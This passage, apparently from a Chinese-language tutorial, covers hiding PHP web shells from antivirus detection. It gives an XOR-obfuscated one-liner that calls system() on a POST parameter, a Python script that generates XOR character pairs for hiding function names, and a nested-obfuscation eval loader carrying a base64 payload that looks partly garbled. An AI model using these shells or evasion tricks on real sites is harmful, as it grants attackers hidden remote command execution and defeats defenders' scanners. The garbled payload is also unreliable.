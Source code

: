 ### 8.1 异或

`^` 为异或运算符，在PHP中两个变量进行异或时，会将字符串转换成二进制再进行异或运算，运算完再将结果从二进制转换成了字符串

  *   *   * 

    
    
    $f = ('.'^']').('$'^']').('.'^']').('4'^'@').('8'^']').(']'^'0');   //system高危函数$f = ('.$.48]' ^ ']]]@]0');   //等同于这样$f($_POST['aabyss']);

这里的话，可以参考国光大佬的Python脚本生成异或结果，然后来替换即可：`python3 xxx.py > results.txt`

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    import stringfrom urllib.parse import quote  
    keys = list(range(65)) + list(range(91,97)) + list(range(123,127))results = []  
      
    for i in keys:    for j in keys:        asscii_number = i^j        if (asscii_number >= 65 and asscii_number <= 90) or (asscii_number >= 97 and asscii_number <= 122):            if i < 32 and j < 32:                temp = (f'{chr(asscii_number)} = ascii:{i} ^ ascii{j} =  {quote(chr(i))} ^ {quote(chr(j))}', chr(asscii_number))                results.append(temp)            elif i < 32 and j >=32:                temp = (f'{chr(asscii_number)} = ascii:{i} ^ {chr(j)} = {quote(chr(i))} ^ {quote(chr(j))}', chr(asscii_number))                results.append(temp)            elif i >= 32 and j < 32:                temp = (f'{chr(asscii_number)} = {chr(i)} ^ ascii{j} = {quote(chr(i))} ^ {quote(chr(j))}', chr(asscii_number))                results.append(temp)            else:                temp = (f'{chr(asscii_number)} = {chr(i)} ^ {chr(j)} = {quote(chr(i))} ^ {quote(chr(j))}', chr(asscii_number))                results.append(temp)  
    results.sort(key=lambda x:x[1], reverse=False)  
    for low_case in string.ascii_lowercase:    for result in results:        if low_case in result:            print(result[0])  
    for upper_case in string.ascii_uppercase:    for result in results:        if upper_case in result:            print(result[0])

###

### 8.2 嵌套运算

其实嵌套运算在WebShell免杀中算是常客了，让我们来看一下一个 `phpinfo()` 的嵌套运算

  *   *   *   *   * 

    
    
    $O00OO0=urldecode("%6E1%7A%62%2F%6D%615%5C%76%740%6928%2D%70%78%75%71%79%2A6%6C%72%6B%64%679%5F%65%68%63%73%77%6F4%2B%6637%6A");$O00O0O=$O00OO0{3}.$O00OO0{6}.$O00OO0{33}.$O00OO0{30};$O0OO00=$O00OO0{33}.$O00OO0{10}.$O00OO0{24}.$O00OO0{10}.$O00OO0{24};$OO0O00=$O0OO00{0}.$O00OO0{18}.$O00OO0{3}.$O0OO00{0}.$O0OO00{1}.$O00OO0{24};$OO0000=$O00OO0{7}.$O00OO0{13};$O00O0O.=$O00OO0{22}.$O00OO0{36}.$O00OO0{29}.$O00OO0{26}.$O00OO0{30}.$O00OO0{32}.$O00OO0{35}.$O00OO0{26}.$O00OO0{30};  
    eval($O00O0O("JE8wTzAwMD0iU0VCb1d4VGJ2SGhRTnFqeW5JUk1jbWxBS1lrWnVmVkpVQ2llYUxkc3J0Z3dGWER6cEdPUFdMY3NrZXpxUnJBVUtCU2hQREdZTUZOT2UZOT25FYmp0d1pwYVZRZEh5Z0NJdnhUSmZYdW9pbWw3N3QvbFg5VEhyT0tWRlpTTSGk4eE1pQVRIazVGcWh4b21UMG5sdTQ9IjtldmFsKCc/PicuJE8wME8wTygkTzBPTzAwKCRPTzBPMDAoJE8wTzAwMCwkT08wMDAwKjIpLCRPTzBPMDAoJE8wTzAwMCwkT08wMTzBPTzAwKCRPTzBPMDAoJE8wTzAwMCwkT08wMDAwKjIpLCRPTzBPMDAoJE8wTzAwMCwkT08wMDAwLCRPTzAwMDApLCRPTzBPMDAoJE8wTzAwMCwwLCRPTzAwMDApKSkpOw=="));  
    
